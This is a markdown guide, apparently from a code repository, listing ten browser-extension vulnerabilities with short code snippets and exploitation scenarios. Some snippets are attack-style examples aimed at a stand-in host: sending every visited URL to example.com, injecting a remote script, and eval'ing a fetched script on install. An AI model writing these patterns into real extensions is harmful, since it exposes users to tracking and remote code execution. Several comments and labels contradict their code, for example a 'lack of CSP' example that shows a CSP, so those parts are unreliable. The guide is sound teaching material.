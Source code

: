 # Browser Extension Security Vulnerabilities
This document outlines common security vulnerabilities found in browser extensions and provides examples of how attackers can exploit these vulnerabilities.
## 1. Permissions Overreach
Vulnerable Code Example:
```json
{
  "manifest_version": 2,
  "name": "My Extension",
  "permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "storage"
  ],
  "content_security_policy": "default-src 'self'"
}
```
Exploitation Scenario:
An extension with broad permissions can access all tabs and browsing data. If the extension is compromised, an attacker can capture sensitive information from any website the user visits, including passwords and personal data.
## 2. Data Leakage
Vulnerable Code Example:
```javascript
chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
  if (changeInfo.status === 'complete') {
    fetch('http://example.com/track', {
      method: 'POST',
      body: JSON.stringify({ url: tab.url })
    });
  }
});
```
This code can leak user URLs to a remote server.
Exploitation Scenario:
An extension sending the URLs of all visited pages to a remote server can inadvertently leak sensitive information, especially if users visit banking or personal sites.
## 3. Cross-Site Scripting (XSS)
Vulnerable Code Example:
```javascript
// User input retrieval with sanitization
let userInput = document.getElementById('input').value;
document.getElementById('output').innerHTML = userInput; // Consider sanitizing user input to prevent XSS
```
Exploitation Scenario:
User inputs can execute scripts in the page's context. An attacker could inject scripts that steal cookies, session tokens, or sensitive data.
## 4. Insecure Communication
Vulnerable Code Example:
```javascript
// User input retrieval with sanitization
fetch('http://example.com/api/data')
  .then(response => response.json()) // Ensure to handle the response
  .catch(error => console.error('Error fetching data:', error));
```
Exploitation Scenario:
Data sent over insecure HTTP can be intercepted by attackers on the same network, allowing them to capture sensitive information, such as tokens or personal data.
## 5. Code Injection
Vulnerable Code Example:
```javascript
let script = document.createElement('script');
script.src = 'http://example.com/malicious.js'; // Avoid loading scripts from untrusted sources
document.body.appendChild(script);
```
Exploitation Scenario:
If an attacker controls the script URL, they can inject malicious code into the page, leading to data theft or manipulation of the page’s functionality.
## 6. Malicious Updates
Vulnerable Code Example:
```javascript
chrome.runtime.onInstalled.addListener(() => {
  fetch('http://example.com/update-script.js')
    .then(response => response.text())
    .then(eval) // Using eval is potentially unsafe; consider alternatives
    .catch(error => console.error('Error loading script:', error));
});
```
Exploitation Scenario:
If the update mechanism is compromised, attackers can push malicious code to users without their knowledge, potentially gaining control over their browsers.
## 7. Third-Party Dependencies
Vulnerable Code Example:
```json
{
  "dependencies": {
    "vulnerable-lib": "1.0.0"
  }
}
// Consider updating to a secure version
```
Exploitation Scenario:
An extension relying on outdated third-party libraries may become vulnerable if those libraries have known security flaws that attackers can exploit.
## 8. Lack of Content Security Policy (CSP)
Vulnerable Code Example:
```json
{
  "manifest_version": 2,
  "name": "My Extension",
  "content_security_policy": "default-src 'self'"
}
```
Exploitation Scenario:
Without a strong CSP, attackers can inject untrusted content, increasing the risk of XSS and other attacks that manipulate the extension’s behavior.
## 9. Insecure Storage
Vulnerable Code Example:
```javascript
localStorage.setItem('token', 'my-secret-token'); // No encryption
```
Exploitation Scenario:
If an attacker gains access to the local storage, they can easily retrieve sensitive information, such as tokens or user credentials, leading to unauthorized access.
## 10. Insufficient Privacy Controls
Vulnerable Code Example:
```json
{
  "manifest_version": 2,
  "name": "My Extension",
  "description": "A cool extension with no privacy policy." // Ensure to provide a privacy policy
}
```
Exploitation Scenario:
Users may be unaware of how their data is being collected or used, leading to potential abuse of their information without consent or awareness.
